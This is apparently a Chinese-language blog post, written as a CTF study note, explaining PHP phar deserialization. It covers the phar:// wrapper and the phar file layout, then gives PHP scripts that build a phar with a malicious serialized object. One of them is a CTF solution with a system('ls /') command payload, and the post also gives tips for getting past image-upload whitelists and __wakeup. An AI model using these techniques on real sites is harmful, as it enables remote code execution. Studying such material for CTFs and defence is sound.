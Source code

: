 ```yaml
---
layout: post
title: phar反序列化
categories: [web,php,phar]
---
```

# phar

## 首先了解一下phar://伪协议

phar://伪协议读取zip压缩包文件内容，将木马压缩成压缩包‘

> ?file=phar://压缩包名/内部文件名

## 进入正题phar反序列化

### stub: 

phar文件的标识，以`xxxxx<?php xxx; __HALT_COMPILER();?>`为固定格式，前面的可以不管，但是必须得以`__HALT_COMPLIER();`结尾

### a manifest describing the contents:

Phar文件中被压缩的文件的一些信息以及压缩文件的权限，其中Meta-data部分的信息会以序列化的形式储存，这里就是漏洞利用的关键点,我们构造的exp就放在这个部分内。

### the file contents:

这里放的是压缩文件内的内容，我们真正的目的是构造exp利用phar反序列化，所以这里的内容可以随便写，并不影响。

### a signature for verifying Phar integrity:

签名。放在最末，算是一个匹配符，将前面除了签名用SHA1、MD5或SHA256加密所有的内容后来匹配。在这里可能用不上，但是在phar反序列化配上GC回收机制的时候这个点会派上大用场。

### 写个Demo

```php
<?php
highlight_file(__FILE__);
class Test{
    public $name='errorr0';
}
$a = new Test();
$phar = new Phar("errorr0.phar");  //生成一个phar文件，名字任意这里是errorr0，后缀名必须为phar
$phar -> startBuffering(); 
$phar -> setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar -> setMetadata($a); //将创建的对象a写入到Metadata中
$phar -> addFromString("test.txt","hello,phar!!"); //添加压缩文件 文件名为test，文件内容为hello,phar!!
$phar -> stopBuffering();
?>
```

<br/>

### tip

如果题目是白名单绕过，只能上传jpg、png、gif。这个时候应该怎么办呢？还记得我说过gif是以GIF89a开头的吧？所以解决方法就是，在setStub加phar的标识时顺便加上一句GIF89a，再将生成的phar文件修改为JPG后缀，最后上传再用phar://协议就可以了。

<br/>

<br/>

## 例：[NSSRound#4 SWPU]1zweb

```php
<?php
class LoveNss{
    public $ljt="Misc";
    public $dky="Re";
    public $cmd="system('ls /');";
}
 
$a = new LoveNss();
 
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); //自定义的meta-data
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算,默认是SHA1
$phar->stopBuffering();
```

生成phar文件，要绕过__wakeup方法，手动修改反序列化的数量

### 记得修改php.ini. 我就懒得改了
